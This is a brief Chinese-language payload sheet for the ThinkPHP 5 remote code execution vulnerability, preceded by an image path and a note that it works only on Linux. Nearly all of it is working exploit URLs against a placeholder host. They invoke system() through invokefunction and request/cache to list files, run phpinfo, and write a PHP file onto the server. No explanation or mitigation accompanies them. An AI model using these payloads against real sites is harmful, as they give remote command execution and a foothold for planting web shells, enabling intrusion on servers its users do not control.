 #这tp代码暂时只能在linux下运行，在window下运行会报错，请移步linux中使用

1、执行漏洞显示目录下文件，可构造如下 payload

http://www.test.com/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20-l


http://www.test.com/public/index.php?s=/index/\think\request/cache&key=ls%20-l|system

2、执行phpinfo,可构造如下payload

http://www.test.com/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=php%20-r%20'phpinfo();'


http://www.test.com/public/index.php?s=/index/\think\request/cache&key=1|phpinfo

3、写info.php文件，如下payload


http://www.test.com/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20%27<?php%20phpinfo();?>%27%20>%20info.php

http://www.test.com/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=info.php&vars[1][]=%3C?php%20phpinfo();?%3E

